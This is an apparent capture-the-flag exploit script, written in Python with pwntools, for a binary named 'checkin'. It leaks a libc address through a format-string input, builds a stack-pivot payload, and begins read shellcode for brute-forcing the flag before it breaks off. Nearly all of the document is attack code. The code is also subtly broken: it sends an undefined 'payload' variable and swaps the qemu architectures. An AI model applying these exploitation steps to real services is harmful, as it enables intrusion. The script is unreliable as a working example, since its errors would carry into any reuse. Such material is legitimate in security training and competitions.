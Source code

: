 ```python
#encoding = utf-8
import os
import sys
import time
from pwn import *
from LibcSearcher import * 

context.log_level = "debug"
context.os = 'linux'
context.arch = 'amd64'

binary = "checkin"
libcelf = "libc-2.30.so"
ip = ""
port = ""
local = 1
arm = 0
core = 64

og = [0x4342,0x3342]

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

if(local==1):
    if(arm==1):
        if(core==64):
            p = process(["qemu-arm", "-g", "1212", "-L", "/usr/arm-linux-gnueabi",binary])
        if(core==32):
            p = process(["qemu-aarch64", "-g", "1212", "-L", "/usr/aarch64-linux-gnu/", binary])
    else:
        p = process(binary)
else:
    p = remote(ip,port)

elf = ELF(binary)
libc = ELF(libcelf)

bss_addr = elf.bss() + 0x500
read_addr = 0x4013DD
leave_addr = 0x401402

possible_list = "-0123456789abcdefghijklmnopqrstuvwxyz{}"

def pwn(pos, char):
    sla(b"name :\n", b'%25$p')
    ru(b"Hello, ")
    libc_base = int(r(16)[2:], 16) - 0x7f6c4a5320b3 + 0x7f6c4a50b000
    pl = b'\x00'*0x80 + p64(bss_addr + 0x80) + p64(read_addr)
    sa(b"check in :\n", payload)

    shellcode_read = f'''
        xor rax, rax
        xor rdi, rdi
        push {bss_addr+0x100}
```